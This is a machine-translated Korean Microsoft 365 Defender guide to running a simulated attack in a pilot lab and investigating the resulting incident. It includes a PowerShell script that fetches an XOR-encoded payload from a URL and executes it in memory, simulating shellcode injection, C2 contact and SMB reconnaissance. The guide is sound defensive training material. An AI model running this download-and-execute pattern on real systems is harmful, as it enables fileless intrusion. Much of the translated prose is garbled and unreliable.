

# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a>파일럿 환경에서 공격 시뮬레이션 Microsoft 365 Defender 실행


이 [문서는](eval-defender-investigate-respond.md) 파일럿 환경을 사용하여 파일럿 환경에서 인시던트에 대한 조사 및 대응을 Microsoft 365 Defender 2단계 중 1단계입니다. 이 프로세스에 대한 자세한 내용은 개요 문서를 [참조하세요.](eval-defender-investigate-respond.md)

파일 Microsoft 365 Defender럿 [](eval-defender-investigate-respond.md)환경을 준비한 후 시뮬레이트된 공격으로 인시던트가 생성되고 Microsoft 365 Defender 포털을 사용하여 조사 및 대응하여 인시던트 대응 및 자동화된 조사 및 수정 기능을 테스트해야 합니다.

이 Microsoft 365 Defender 인시던트는 공격의 스토리를 만드는 상호 관련된 경고 및 관련 데이터의 모음입니다.

Microsoft 365 및 앱은 의심스러우거나 악의적인 이벤트나 활동을 감지할 때 경고를 생성합니다. 개별 경고는 완료되거나 지속적인 공격에 대한 중요한 단서를 제공합니다. 그러나 공격은 일반적으로 장치, 사용자 및 사서함과 같은 다양한 유형의 엔터티에 대해 다양한 기술을 사용합니다. 그 결과 테넌트의 여러 엔터티에 대한 여러 경고가 생성됩니다.

>[!Note]
>보안 분석 및 인시던트 대응이 [](first-incident-overview.md) 처음인 경우 첫 번째 인시던트에 응답 안내를 참조하여 일반적인 분석, 수정 및 인시던트 사후 검토 프로세스를 안내합니다.
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a>검색 포털을 Microsoft 365 Defender 시뮬레이션

Microsoft 365 Defender 포털에는 파일럿 환경에 시뮬레이션된 공격을 만들 수 있는 기본 제공 기능이 있습니다.

- 에서 에 대한 Microsoft 365 Defender 시뮬레이션 [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) Office 365.
  
  Microsoft 365 Defender 포털에서 전자 메일 & 시뮬레이션 > **선택합니다.**

- 공격 자습서는 & 끝점에 대한 Microsoft 365 Defender 시뮬레이션을 [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) 제공합니다.

  Microsoft 365 Defender <a href="https://go.microsoft.com/fwlink/p/?linkid=2077139" target="_blank">포털에서</a> **Endpoints**> 자습서를 & 선택합니다.

### <a name="defender-for-office-365-attack-simulation-training"></a>공격 시뮬레이션 Office 365 수비수

Office 365 Microsoft 365 E5 또는 Microsoft Defender for Office 365 계획 2에 대한 공격 시뮬레이션 교육이 포함되어 있습니다. 기본 단계는 다음입니다.

1. 시뮬레이션 만들기

   새 시뮬레이션을 만들고 보내는 방법에 대한 단계별 지침은 피싱 공격 [시뮬레이트를 참조하세요.](/microsoft-365/security/office-365-security/attack-simulation-training)

2. 페이로드 만들기

   시뮬레이션 내에서 사용할 페이로드를 만드는 방법에 대한 단계별 지침은 공격 시뮬레이션 교육을 위한 사용자 지정 [페이로드 만들기를 참조하세요.](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)

3. 인사이트 얻기

   보고를 통해 인사이트를 얻는 방법에 대한 단계별 지침은 공격 시뮬레이션 교육을 통해 인사이트 [얻기를 참조하세요.](/microsoft-365/security/office-365-security/attack-simulation-training-insights)

자세한 내용은 [시뮬레이션을 참조하세요.](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a>Endpoint 공격용 Defender & 시뮬레이션

다음은 Microsoft의 Endpoint 시뮬레이션용 Defender입니다.

- 문서 드롭 백도어
- 자동화된 조사(백도어)

공격 IQ 및 SafeBreach에서 추가 시뮬레이션이 있습니다. 자습서 집합도 있습니다.

각 시뮬레이션 또는 자습서에 대해 다음을 실행합니다.

1. 선택한 시뮬레이션 또는 시나리오와 함께 제공되는 해당 문서를 다운로드하고 읽어 읽습니다.

2. 시뮬레이션 파일을 다운로드합니다. 테스트 장치에서 파일 또는 스크립트를 다운로드할 수 있지만 필수는 아닙니다.

3. 문서의 단계에 따라 테스트 장치에서 시뮬레이션 파일 또는 스크립트를 실행합니다.

 자세한 내용은 시뮬레이트된 [공격을 통해 끝점에 대한 Microsoft Defender 환경을 참조하세요.](/microsoft-365/security/defender-endpoint/attack-simulations)

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a>격리된 도메인 컨트롤러 및 클라이언트 장치를 사용하여 공격 시뮬레이션(선택 사항)

이 선택적 인시던트 대응 연습에서는 PowerShell 스크립트를 사용하여 격리된 AD DS(Active Directory 도메인 서비스) 도메인 컨트롤러 및 Windows 디바이스에 대한 공격을 시뮬레이션한 다음 인시던트 조사, 수정 및 해결합니다.

먼저 파일럿 환경에 끝점을 추가해야 합니다.

### <a name="add-pilot-environment-endpoints"></a>파일럿 환경 끝점 추가

먼저 격리된 AD DS 도메인 컨트롤러 및 Windows 장치를 파일럿 환경에 추가해야 합니다.

1. 파일럿 환경 테넌트에서 [를 사용하도록 설정되어 있는지 Microsoft 365 Defender.](m365d-enable.md#confirm-that-the-service-is-on)

2. 도메인 컨트롤러가 다음을 하는지 확인:

   - Server Windows 2008 R2 이상 버전을 실행합니다.
   - ID에 [대한 Microsoft Defender에 보고하고](/azure/security-center/security-center-wdatp) 원격 관리를 [사용하도록 설정했습니다.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Microsoft Defender for Identity 및 Microsoft Cloud App Security [통합이 사용하도록 설정되어](/cloud-app-security/mdi-integration) 있습니다.
   - 테스트 도메인에 테스트 사용자가 만들어졌습니다. 관리자 수준 사용 권한은 필요하지 않습니다.

3. 테스트 장치가 다음을 하는지 확인합니다.

   - 1903 Windows 10 이상 버전을 실행합니다.
   - AD DS 도메인 컨트롤러 도메인에 가입됩니다.
   - 사용 [Windows Defender 바이러스 백신](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) 있습니다. 사용자 설정에 문제가 Windows Defender 바이러스 백신 문제 해결 항목을 [참조하세요.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-microsoft-defender-antivirus-is-not-disabled-by-a-policy)
   - [끝점용 Microsoft Defender에 온보딩됩니다.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

테넌트 및 장치 그룹을 사용하는 경우 테스트 장치에 대한 전용 장치 그룹을 만들고 최상위 수준으로 푸시합니다.

한 가지 대안은 AD DS 도메인 컨트롤러를 호스트하고 디바이스를 인프라 서비스에서 가상 컴퓨터로 Microsoft Azure 것입니다. 시뮬레이트된 엔터프라이즈 테스트 [랩 가이드의 1단계에](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)있는 지침을 사용할 수 있지만 APP1 가상 컴퓨터 만들기는 건너뛰어도 됩니다.

결과는 다음과 있습니다.



고급 기술을 활용하여 감지에서 숨기는 정교한 공격을 시뮬레이트합니다. 이 공격은 도메인 컨트롤러에서 연 SMB(서버 메시지 블록) 세션을 열고 사용자의 장치의 최근 IP 주소를 검색합니다. 일반적으로 이 공격 범주에는 피해자의 장치에 삭제된 파일이 포함되지는 않습니다. 이러한 파일은 메모리에서만 발생합니다. 기존 시스템 및 관리 도구를 사용하여 "이 육지에서 라이브"를 실행하고 실행을 숨기기 위해 시스템 프로세스에 코드를 삽입합니다. 이러한 동작을 사용하면 검색을 방지하고 디바이스에서 유지될 수 있습니다.

이 시뮬레이션에서는 샘플 시나리오가 PowerShell 스크립트로 시작됩니다. 실제로 사용자는 스크립트를 실행하도록 속일 수 있습니다. 또는 이전에 감염된 장치에서 다른 컴퓨터로의 원격 연결에서 스크립트가 실행될 수 있습니다. 이는 공격자가 네트워크에서 을(를) 끊어 이동하려고 시도하고 있는 것일 수 있습니다. 관리자가 스크립트를 원격으로 실행하여 다양한 관리 작업을 수행하기도 하여 이러한 스크립트를 검색하기 어려울 수 있습니다.


시뮬레이션하는 동안 공격은 셸코드를 무고한 프로세스에 주입합니다. 이 시나리오에서는 이 시나리오를 사용하려면 notepad.exe. 시뮬레이션을 위해 이 프로세스를 선택했지만 공격자는 추가와 같은 장기 실행 시스템 프로세스를 대상으로 할 svchost.exe. 그런 다음 셸 코드는 공격자 명령 및 제어(C2) 서버에 연결하여 진행 방법에 대한 지침을 수신합니다. 스크립트는 DC(도메인 컨트롤러)에 대해 정비 쿼리 실행을 시도합니다. 정비를 통해 공격자는 최근 사용자 로그인 정보에 대한 정보를 얻을 수 있습니다. 공격자가 이 정보를 가지면 네트워크에서 을(를) 이동하여 특정 중요한 계정으로 이동할 수 있습니다.

> [!IMPORTANT]
> 최적의 결과를 얻기 위해 가능한 한 공격 시뮬레이션 지침을 따르세요.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>격리된 AD DS 도메인 컨트롤러 공격 시뮬레이션 실행

공격 시나리오 시뮬레이션을 실행합니다.

1. 파일럿 환경에 격리된 AD DS 도메인 컨트롤러와 장치 Windows 확인합니다.

2. 테스트 사용자 계정을 사용하여 테스트 장치에 로그인합니다.

3. 테스트 Windows PowerShell 창을 여십시오.

4. 다음 시뮬레이션 스크립트를 복사합니다.

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > 웹 브라우저에서 이 문서를 열면 특정 문자를 잃거나 추가 줄을 끊지 않고 전체 텍스트를 복사하는 데 문제가 발생할 수 있습니다. 이 경우 이 문서를 다운로드하여 Adobe Reader에서 여는 것입니다.

5. PowerShell 창에서 복사한 스크립트를 붙여넣고 실행합니다.

> [!NOTE]
> RDP(원격 데스크톱 프로토콜)를 사용하여 PowerShell을 실행하는 경우 **CTRL-V** 바로 가기 키 또는 마우스 오른쪽 단추 클릭 붙여넣기 메서드가 작동하지 않을 수 있기 때문에 RDP 클라이언트에서 클립보드 텍스트 형식 명령을 사용합니다. 최신 버전의 PowerShell도 이 메서드를 허용하지 않는 경우, 메모리에서 메모장 먼저 복사하여 가상 머신에 복사한 다음 PowerShell에 붙여넣아야 할 수 있습니다.

몇 초 후에 메모장 앱이 열립니다. 시뮬레이트된 공격 코드는 해당 코드에 메모장. 전체 시나리오를 메모장 자동으로 생성된 메모장 인스턴스를 열어 두면 됩니다.

시뮬레이트된 공격 코드는 외부 IP 주소(C2 서버 시뮬레이트)와 통신한 다음 SMB를 통해 도메인 컨트롤러에 대한 정경을 시도합니다.

이 스크립트가 완료되면 PowerShell 콘솔에 이 메시지가 표시됩니다.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

자동화된 인시던트 및 대응 기능이 실제로 실행되고 notepad.exe 열어 봐야 합니다. 자동화된 인시던트 및 대응 프로세스가 메모장 있습니다.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>시뮬레이트된 공격에 대한 인시던트 조사

> [!NOTE]
> 이 시뮬레이션을 진행하기 전에 다음 비디오를 시청하여 인시던트 관리가 관련 경고를 조사 프로세스의 일부로 모을 수 있는 방법, 포털에서 찾을 수 있는 위치 및 보안 작업에 도움이 되는 방법을 참조합니다.

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

SOC 분석가의 시선으로 전환하면 이제 포털에서 공격 조사를 시작할 Microsoft 365 Defender 있습니다.

1. 웹 Microsoft 365 Defender <a href="https://go.microsoft.com/fwlink/p/?linkid=2077139" target="_blank">를 열 수 있습니다.</a>

2. 탐색 창에서 인시던트 및 & 알림 > **선택합니다.**

3. 시뮬레이트된 공격에 대한 새 인시던트가 인시던트 큐에 표시됩니다.

    

#### <a name="investigate-the-attack-as-a-single-incident"></a>단일 인시던트로 공격 조사

Microsoft 365 Defender 서로 연관하고 서로 다른 제품의 모든 관련 경고 및 조사를 하나의 인시던트 엔터티로 집계합니다. 이렇게 하면 Microsoft 365 Defender 공격 범위가 넓어지며 SOC 분석가가 복잡한 위협을 이해하고 대응할 수 있습니다.

이 시뮬레이션 중에 생성된 경고는 동일한 위협과 연결되며 그 결과로 자동으로 단일 인시던트로 집계됩니다.

인시던트 보기:

1. 웹 Microsoft 365 Defender <a href="https://go.microsoft.com/fwlink/p/?linkid=2077139" target="_blank">를 열 수 있습니다.</a>

2. 탐색 창에서 인시던트 및 & 알림 > **선택합니다.**

3. 사고 이름 왼쪽에 있는 원을 클릭하여 새 항목을 선택합니다. 사이드 패널에는 모든 관련 경고를 포함하여 인시던트에 대한 추가 정보가 표시됩니다. 각 인시던트에는 포함된 경고의 특성에 따라 해당 이름을 설명하는 고유한 이름이 있습니다.

   대시보드에 표시되는 경고는 ID용 Microsoft Defender, id용 Microsoft Defender, Microsoft Cloud App Security, 끝점용 Microsoft Defender, Microsoft 365 Defender 및 Microsoft Defender for Office 365.

3. **인시던트에 대한** 자세한 정보를 확인하려면 문제 페이지 열기 를 선택합니다.

   **인시던트 페이지에서** 인시던트와 관련된 모든 경고 및 정보를 볼 수 있습니다. 이 정보에는 경고와 관련된 엔터티 및 자산, 경고의 검색 원본(예: ID용 Microsoft Defender 또는 끝점용 Microsoft Defender) 및 이러한 엔터티가 함께 연결된 이유가 포함됩니다. 인시던트 경고 목록을 검토하면 공격의 진행률이 표시됩니다. 이 보기에서 개별 경고를 보고 조사할 수 있습니다.

   오른쪽 메뉴에서  인시던트 관리를 클릭하여 인시던트에 태그를 지정하고, 인시던트에 할당하고, 설명을 추가할 수도 있습니다.

#### <a name="review-generated-alerts"></a>생성된 경고 검토

시뮬레이트된 공격 중에 생성되는 몇 가지 경고를 살펴보아 봐야 합니다.

> [!NOTE]
> 시뮬레이트된 공격 중에 생성된 몇 가지 경고만 진행합니다. 테스트 장치에서 실행되는 Windows 및 Microsoft 365 Defender 버전에 따라 약간 다른 순서로 더 많은 경고가 표시될 수 있습니다.


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a>경고: 관찰된 의심스러운 프로세스 삽입(원본: 끝점용 Microsoft Defender)

고급 공격자는 정교한 도용 방법을 사용하여 메모리를 유지하고 검색 도구에서 숨길 수 있습니다. 한 가지 일반적인 기술은 악의적인 실행이 아닌 신뢰할 수 있는 시스템 프로세스 내에서 작동하여 검색 도구 및 보안 운영에서 악성 코드를 발견하기 어렵게 만드는 것입니다.

SOC 분석가가 이러한 고급 공격을 감지할 수 있도록 끝점용 Microsoft Defender의 심층 메모리 센서는 다양한 프로세스 간 코드 삽입 기술에 대한 전례 없는 가시성을 클라우드 서비스를 제공합니다. 다음 그림에서는 Endpoint용 Defender가 에 코드를 삽입하려고 시도를 감지하고 경고하는 <i>방법을notepad.exe. </i>


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a>경고: 명령줄 인수가 없는 프로세스가 실행되는 예기치 않은 동작(원본: 끝점용 Microsoft Defender)

끝점 검색을 위한 Microsoft Defender는 종종 공격 기술의 가장 일반적인 특성을 대상으로 합니다. 이 방법을 사용하면 지속성이 보장되고 공격자가 최신 전략으로 전환할 수 있습니다.

당사는 대규모 학습 알고리즘을 사용하여 조직 및 전 세계에 있는 일반적인 프로세스의 정상적인 동작을 설정하고 이러한 프로세스가 정상적인 동작을 표시하는 경우를 감시합니다. 이러한 특이한 동작은 종종 신뢰할 수 있는 프로세스에서 불일치 코드가 도입되고 실행되고 있는 것을 나타냅니다.

이 시나리오에서 프로세스 <i></i>notepad.exe외부 위치와의 통신과 관련된 비정상적인 동작이 표시됩니다. 이 결과는 악성 코드를 도입하고 실행하는 데 사용되는 특정 방법과는 독립적입니다.

> [!NOTE]
> 이 경고는 추가 백엔드 처리가 필요한 기계 학습 모델을 기반으로 하기 때문에 포털에 이 경고가 표시되기까지 다소 시간이 걸릴 수 있습니다.

경고 세부 정보에는 조사를 확장하기 위해 피벗으로 사용할 수 있는 표시기인 외부 IP 주소가 포함되어 있습니다.

IP 주소 세부 정보 페이지를 확인하려면 경고 프로세스 트리에서 IP 주소를 선택합니다.


다음 그림에는 선택한 IP 주소 세부 정보 페이지(경고 프로세스 트리에서 IP 주소 클릭)가 표시됩니다.


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>경고: SMB(사용자 및 IP 주소 정)(원본: ID용 Microsoft Defender)

SMB(서버 메시지 블록) 프로토콜을 사용하여 열문을 사용하면 공격자가 최근 사용자 로그온 정보를 얻을 수 있습니다. 이 정보를 통해 공격자는 네트워크를 통해 먼 으로 이동하여 특정 중요한 계정에 액세스하는 데 도움이 됩니다.

이 검색에서는 도메인 컨트롤러에 대해 SMB 세션 열호가 실행될 때 경고가 트리거됩니다.


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a>끝점용 Microsoft Defender를 사용하여 장치 타임라인 검토

이 인시던트에서 다양한 경고를 탐색한 후 앞에서 조사한 문제 페이지로 다시 이동합니다. **인시던트** 페이지에서 장치 탭을 선택하여 끝점용 Microsoft Defender 및 ID용 Microsoft Defender에서 보고한 이 인시던트와 관련된 장치를 검토합니다.

공격이 수행된 디바이스의 이름을 선택하여 해당 특정 장치에 대한 엔터티 페이지를 열 수 있습니다. 해당 페이지에서 트리거된 경고 및 관련 이벤트를 볼 수 있습니다.

시간 표시 **막대 탭을** 선택하여 디바이스 타임라인을 열고 장치에서 관찰된 모든 이벤트 및 동작을 시간 순서대로 보고 경고가 발생했습니다.


좀 더 흥미로운 동작 중 일부를 확장하면 프로세스 트리와 같은 유용한 세부 정보가 있습니다.

예를 들어 경고 이벤트 의심스러운 프로세스 주입이 발견될 때까지 아래로 **스크롤합니다.** 왼쪽 **창의** powershell.exe 그래프 아래에 이 동작에 대한 전체 프로세스 트리를 표시하려면 notepad.exe  프로세스 이벤트에 삽입된 옵션을 선택합니다. 필요한 경우 필터링에 검색 표시줄을 사용하세요.


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a>사용자 정보를 검토할 Microsoft Cloud App Security

인시던트 페이지에서  사용자 탭을 선택하여 공격에 관련된 사용자 목록을 표시합니다. 이 표에는 각 사용자의 조사 우선 순위 점수를 포함하여 각 사용자에 대한 추가 **정보가 포함되어** 있습니다.

사용자 이름을 선택하여 추가 조사를 실시할 수 있는 사용자의 프로필 페이지를 열 수 있습니다. [위험한 사용자 조사에 대해 자세히 읽어 를 읽어 읽습니다.](/cloud-app-security/tutorial-ueba#identify)


#### <a name="automated-investigation-and-remediation"></a>자동화된 조사 및 수정

> [!NOTE]
>이 시뮬레이션을 진행하기 전에 다음 비디오를 시청하여 자동화된 자동 복구가 무엇일지, 포털에서 찾을 수 있는 위치 및 보안 작업에 도움이 되는지 익숙해지기 전에 다음 비디오를 시청해 봐야 합니다.

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

사이트 포털에서 인시던트로 Microsoft 365 Defender 이동합니다. **인시던트** 페이지의  조사 탭에는 ID에 대한 Microsoft Defender 및 끝점용 Microsoft Defender에서 트리거한 자동화된 조사가 표시됩니다. 아래 스크린샷에는 Endpoint용 Defender에서 트리거한 자동화된 조사만 표시됩니다. 기본적으로 Endpoint용 Defender는 큐에서 발견된 아티팩트를 자동으로 수정하여 수정해야 합니다.


조사를 트리거한 경고를 선택하여 조사 세부 정보 **페이지를 열** 수 있습니다. 다음과 같은 세부 정보를 볼 수 있습니다.

- 자동화된 조사를 트리거한 경고입니다.
- 영향을 미치는 사용자 및 장치. 추가 장치에서 표시기가 발견되는 경우 이러한 추가 장치도 나열됩니다.
- 증거 목록입니다. 파일, 프로세스, 서비스, 드라이버 및 네트워크 주소와 같은 엔터티를 찾아 분석합니다. 이러한 엔터티는 경고와의 가능한 관계에 대해 분석하고 양성 또는 악의적인 것으로 등급이 지정됩니다.
- 위협이 발견됩니다. 조사 중에 발견된 알려진 위협입니다.

> [!NOTE]
> 시기에 따라 자동화된 조사가 계속 실행되고 있을 수 있습니다. 증거를 수집 및 분석하고 결과를 검토하기 전에 프로세스가 완료될 때까지 몇 분 정도 기다립니다. 조사 **세부 정보 페이지를 새로** 고쳐 최신 결과를 얻습니다.


자동화된 조사 중에 끝점용 Microsoft Defender는 수정이 notepad.exe 아티팩트 중 하나로 주입된 프로세스가 확인되었습니다. Endpoint용 Defender는 자동화된 수정의 일부로 의심스러운 프로세스 삽입을 자동으로 중지합니다.

테스트 장치에서 <i>notepad.exe</i> 프로세스 목록에서 사라지는 과정을 볼 수 있습니다.

#### <a name="resolve-the-incident"></a>인시던트 해결

조사가 완료된 후 수정이 확인되면 인시던트가 해결됩니다.

**인시던트 페이지에서** 인시던트 **관리를 선택합니다.** 상태를 **인시던트 해결로** 설정하고 분류 및 보안 테스트에서 **확인을** 위해 True **경고를** 선택합니다.


인시던트가 해결되면 인시던트 포털 및 관련 포털에서 Microsoft 365 Defender 모든 관련 알림을 해결합니다.

그러면 인시던트 분석, 자동화된 조사 및 인시던트 해결에 대한 공격 시뮬레이션이 마무리됩니다.

## <a name="next-step"></a>다음 단계

[](eval-defender-investigate-respond-additional.md)

2단계 중 2단계: [인시던트 Microsoft 365 Defender 기능 시도](eval-defender-investigate-respond-additional.md)

### <a name="navigation-you-may-need"></a>필요한 탐색

[Microsoft 365 Defender 환경 만들기](eval-create-eval-environment.md)
